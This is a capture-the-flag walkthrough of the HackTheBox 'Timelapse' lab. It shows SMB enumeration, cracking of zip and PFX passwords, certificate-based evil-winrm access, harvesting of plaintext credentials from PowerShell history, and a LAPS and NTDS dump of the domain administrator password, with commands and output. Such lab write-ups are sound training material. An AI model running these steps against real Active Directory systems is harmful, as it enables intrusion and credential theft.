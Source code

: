 ```yaml
---
title: HackTheBox-Timelapse
date: 2024-12-24 09:42:00 +/-TTTT
categories: [boxes, red-teaming]
tags: [DevelopGroup, DnsAdmin]     # TAG names should always be lowercase
---
```


## SMB-enum

    ➜  timelapse nxc smb 10.10.11.152
    SMB         10.10.11.152    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)


    ➜  timelapse smbclient -L \\DC01
    Password for [WORKGROUP\root]:

            Sharename       Type      Comment
            ---------       ----      -------
            ADMIN$          Disk      Remote Admin
            C$              Disk      Default share
            IPC$            IPC       Remote IPC
            NETLOGON        Disk      Logon server share 
            Shares          Disk      
            SYSVOL          Disk      Logon server share

## crack-zip-file

    ➜  timelapse zip2john winrm_backup.zip > winrm.hash

    ➜  timelapse john winrm.hash --wordlist=/usr/share/wordlists/rockyou.txt 
    Using default input encoding: UTF-8
    Loaded 1 password hash (PKZIP [32/64])
    Will run 6 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)     
    1g 0:00:00:00 DONE (2024-12-23 12:49) 2.040g/s 7096Kp/s 7096Kc/s 7096KC/s surkerior..supalove
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed. 

## crack-pfx-file

    ➜  timelapse pfx2john legacyy_dev_auth.pfx > legacyy_dev_auth.hash

    ➜  timelapse john legacyy_dev_auth.hash --wordlist=/usr/share/wordlists/rockyou.txt 
    Using default input encoding: UTF-8
    Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 256/256 AVX2 8x])
    Cost 1 (iteration count) is 2000 for all loaded hashes
    Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
    Will run 6 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    thuglegacy       (legacyy_dev_auth.pfx)   

## create-cert-and-key

    ➜  timelapse openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy_dev_auth.key-enc
    Enter Import Password:
    Enter PEM pass phrase:
    Verifying - Enter PEM pass phrase:
    ➜  timelapse openssl rsa -in legacyy_dev_auth.key-enc -out legacyy_dev_auth.key     
    Enter pass phrase for legacyy_dev_auth.key-enc:
    writing RSA key

    ➜  timelapse openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy_dev_auth.crt
    Enter Import Password:

### winrm-shell-with-it

    ➜  timelapse evil-winrm -i timelapse.htb -S -k legacyy_dev_auth.key -c legacyy_dev_auth.crt
                                            
    Evil-WinRM shell v3.7
                                            
    Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                            
    Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                            
    Warning: SSL enabled
                                            
    Info: Establishing connection to remote endpoint
    *Evil-WinRM* PS C:\Users\legacyy\Documents> 

file read console-history

    *Evil-WinRM* PS C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\Powershell\PSReadLine> type ConsoleHost_history.txt
    whoami
    ipconfig /all
    netstat -ano |select-string LIST
    $so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
    $p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
    $c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
    invoke-command -computername localhost -credential $c -port 5986 -usessl -
    SessionOption $so -scriptblock {whoami}
    get-aduser -filter * -properties *
    exit

## LAPS

    ➜  timelapse evil-winrm -i timelapse.htb -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' -S 
    *Evil-WinRM* PS C:\Users\svc_deploy\Documents> net users svc_deploy
    User name                    svc_deploy
    Full Name                    svc_deploy
    Comment
    User's comment
    Country/region code          000 (System Default)
    Account active               Yes
    Account expires              Never

    Password last set            10/25/2021 11:12:37 AM
    Password expires             Never
    Password changeable          10/26/2021 11:12:37 AM
    Password required            Yes
    User may change password     Yes

    Workstations allowed         All
    Logon script
    User profile
    Home directory
    Last logon                   10/25/2021 11:25:53 AM

    Logon hours allowed          All

    Local Group Memberships      *Remote Management Use
    Global Group memberships     *LAPS_Readers         *Domain Users
    The command completed successfully.
    
GRAB ADMIN-PASS-in-one command

    ➜  timelapse nxc smb timelapse.htb -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' --laps --ntds
    [!] Dumping the ntds can crash the DC on Windows Server 2019. Use the option --user <user> to dump a specific user safely or the module -M ntdsutil [Y/n] Y
    SMB         10.10.11.152    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
    SMB         10.10.11.152    445    DC01             [-] DC01\administrator:iobJK3@;Zk.2sgS;Gqf4+or+ STATUS_LOGON_FAILURE


Video Walwalkthrough
[WATCH!](https://youtu.be/A1etiDBywBY)